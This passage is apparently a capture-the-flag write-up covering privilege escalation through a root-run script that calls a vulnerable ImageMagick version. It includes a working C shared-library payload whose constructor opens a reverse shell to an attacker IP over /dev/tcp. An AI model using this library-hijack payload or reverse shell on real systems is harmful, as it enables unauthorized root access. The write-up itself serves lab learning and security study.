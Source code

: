 ### User Flag

Once we are login into machine, we can print the user flag

```bash
cat user.txt
```

## Privilege Escalation

Searching interesting file or directory, i have found a juicy bash script in the /opt dir.&#x20;

```bash
ls -la /opt/scripts

-rwxr-xr-x 1 root root  167 Feb  3 17:11 identify_images.sh
```

```bash
nano /opt/scripts/identify_images.sh
```

{% code title="identify_images.sh" overflow="wrap" lineNumbers="true" %}
```bash
cd /opt/app/static/assets/images # change dir
truncate -s 0 metadata.log # clear the file metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log # find the file .jpg in a dir and then run magick with identify function
```
{% endcode %}

Check the magick version

```bash
magick -version

Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713
```

Googling on internet i have found a exploit for exactly ImageMagick version that allow us to execute remote code.

### ImageMagick - Arbitraty Code Execution



{% embed url="https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8" %}

POC

Go in the directory where magick will execute.

```bash
cd /opt/app/static/assets/images/
```

Set a shared librery with malicious code or reverse shell

```c
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("sh -i >& /dev/tcp/10.10.14.147/9009 0>&1");
    exit(0);
}
EOF
```

